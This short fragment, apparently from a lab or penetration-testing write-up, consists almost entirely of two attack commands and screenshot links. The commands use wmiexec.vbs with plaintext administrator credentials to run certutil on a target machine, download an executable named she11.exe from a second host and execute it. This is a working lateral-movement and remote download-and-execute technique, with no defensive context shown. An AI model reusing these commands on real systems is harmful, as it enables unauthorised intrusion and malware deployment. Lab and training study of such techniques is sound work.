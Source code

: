 ![](../../attaches/Pasted%20image%2020220914233830.png)
```
cscript.exe wmiexec.vbs /cmd 192.168.52.138 administrator hongrisec@2022 "certutil.exe -urlcache -split -f http://192.168.52.143/she11.exe&she11.exe"

cscript.exe wmiexec.vbs /cmd 192.168.52.138 administrator hongrisec@2022 "certutil.exe -urlcache -split -f http://192.168.52.143/she11.exe | she11.exe"

```
![](../../attaches/Pasted%20image%2020220915001948.png)
